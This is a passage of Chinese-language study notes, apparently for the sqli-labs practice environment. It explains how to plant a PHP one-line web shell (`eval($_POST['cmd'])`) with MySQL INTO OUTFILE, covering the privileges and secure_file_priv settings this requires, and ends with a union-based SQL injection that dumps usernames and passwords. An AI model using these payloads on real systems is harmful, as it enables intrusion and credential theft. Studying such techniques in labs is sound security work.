  * 然后访问：`http://目标IP/shell.php`就可以了

 * 值得注意的是：

* ### 🧩 1. `SELECT "..."`

  - `SELECT` 是执行一个查询语句。
  - `"<?php @eval(\$_POST['cmd']); ?>"` 是你想写入的内容。
    - 注意：`$_POST` 中的 `$` 符号需要加反斜杠转义，写成 `\$_POST`；
    - 不然 SQL 认为 `$` 是变量，会报错。

  ### 🧩 2. `INTO OUTFILE '路径'`

  - 这个语句会把 SELECT 的结果，写入到你指定的服务器路径中。
  - 例子中的 `/var/www/html/shell.php` 是目标 Web 目录（你需要提前确认这个路径）；
    - 如果你用的是默认 `nginx`，一般就是 `/usr/local/nginx/html/`
    - Apache 常见的是 `/var/www/html/`

  ## ✅ 成功条件

  1. 数据库账户 **有 `FILE` 权限**：
     - 否则写不出来；
     - 用 `SHOW GRANTS FOR CURRENT_USER;` 可以查看。
  2. `secure_file_priv` 设置支持你写入的目录：
     - `SHOW VARIABLES LIKE 'secure_file_priv';`
     - 如果返回的是某个目录路径，只能写到那个目录；
     - 如果是 `NULL`，不允许写入；
     - 如果是空字符串 `''`，可以任意目录写入（最完美）。
  3. Web 服务要有读这个文件的权限（权限 + 所属用户）。

  ## 🛡️ 一、`secure_file_priv` 是什么？

  这是 MySQL 的一个**安全机制变量**，它控制数据库的文件写入和导出操作（包括 `INTO OUTFILE` 和 `LOAD DATA`）**只能操作特定目录**。

  你可以用这条语句查看它的值：

  ```
  sql
  
  
  复制编辑
  SHOW VARIABLES LIKE 'secure_file_priv';
  ```

![image-20250424184409778](C:\Users\30493\AppData\Roaming\Typora\typora-user-images\image-20250424184409778.png)

### 💻 注入语句原文：

```
127.0.0.1/sqlilabs/Less-1/index.php?id=1' union select 1,group_concat(username,0x3a,password),3 from users--+
```

------
